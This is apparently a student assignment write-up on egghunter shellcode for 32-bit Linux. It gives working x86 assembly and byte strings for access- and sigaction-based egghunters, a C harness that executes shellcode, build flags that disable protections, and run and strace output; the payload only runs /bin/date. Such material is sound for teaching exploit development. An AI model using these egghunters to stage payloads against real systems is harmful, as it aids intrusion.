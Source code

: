 # Egghunter

The first step is to study about egghunter. A very nice document with optimized examples is available: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf 

In this assignment, three examples will be implemented following the same way.

## Final payload

The final payload is an execve shellcode calling /bin/date program. The idea will be to put the final shellcode between many "a" in order to increase the search. It will look like that: *\x61\x61\x61...EGG...SHELLCODE...\x61\x61\x61*.

### Execve Date

Based on examples from the course, a execve shellcode calling date can be easily done:

```ASM
global _start

section .text

_start:
	xor eax, eax
	push eax

	push 0x65746164 ;date
	push 0x2f6e6962 ;bin/
	push 0x2f2f2f2f ;////

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```
### shellcode.c

```
$ echo $(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')$(echo \\x90\\x50\\x90\\x50\\x90\\x50\\x90\\x50)$(bash ../get-shellcode.sh execve-date |cut -d\" -f 2)$(python3 -c 'a=("\\x%0.2x" % 97);print(a*2500)')
```

The test program, will be base on shellcode.c:

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "INSERT EGGHUTER";
main()
{
	unsigned char memory_space[] = "\x61\x61\x61...\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x50\x68\x64\x61\x74\x65\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80...\x61\x61\x61";
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;
	ret();
}
```
## access(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
	mov ebx, 0x50905090 ;the egg
	xor ecx, ecx ;ecx to 0
	mul ecx ;eax and edx to 0

	page_alignment:
		or dx,0xfff
	next_page:
		inc edx

	pusha ;save registers
	lea ebx, [edx+0x4]
	mov al, 0x21 ;#define __NR_access 33
	int 0x80 ;syscall
	cmp al, 0xf2 ;EFAULT return value
	popa ;backup registers
	jz page_alignment
	cmp [edx],ebx ;check for egg 1/2
	jnz next_page
	cmp [edx+0x4],ebx ;check for egg 2/2
	jnz next_page
	jmp edx ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh access2
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 15:02:23 (UTC+0100)
Shellcode Length:  39
Mon Feb 24 15:02:23 CET 2020
```

## access(2) revisited

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
	xor edx,edx ;edx to 0
page_alignment:
	or dx,0xfff
next_page:
	inc edx
	lea ebx,[edx+0x4]
	push byte +0x21 ;#define __NR_access 33
	pop eax
	int 0x80 ;syscall
	cmp al,0xf2 ;EFAULT return value
	jz page_alignment
	mov eax,0x50905090 ;the egg
	mov edi,edx
	scasd ;check for egg 1/2
	jnz next_page
	scasd ;check for egg 2/2
	jnz next_page
	jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh access2revisited
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:00:39 (UTC+0100)
Shellcode Length:  35
Mon Feb 24 21:00:39 CET 2020
```

## sigaction(2)

The shellcode is converted for nasm:
```ASM
global _start

section .text

_start:
	or cx,0xfff
	next_page:
		inc ecx
	push byte +0x43 ; #define __NR_sigaction 67
	pop eax
	int 0x80 ;syscall
	cmp al,0xf2 ;EFAULT return value
	jz _start
	mov eax,0x50905090 ;the egg
	mov edi,ecx
	scasd ;check for egg 1/2
	jnz next_page
	scasd ;check for egg 2/2
	jnz next_page
	jmp edi ;call final shellcode
```

It is extracted in order to be inserted into the *shellcode.c* file (as the file contents many a, it will not be displayed here.
```
$ bash ../get-shellcode.sh sigaction
"\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7"
```

After compilation, our final shellcode is immidiatly executed:

```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ date && ./shellcode 
lundi 24 février 2020, 21:04:42 (UTC+0100)
Shellcode Length:  30
Mon Feb 24 21:04:42 CET 2020
```

## Final check

In order to be sure that this is the egghunter which is executed, a simple //strace// can be used. A sample of the output of the last egghunter is put below:

```
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
sigaction(SIG_0, {...}, NULL, 0x43)     = -1 EFAULT (Bad address)
```
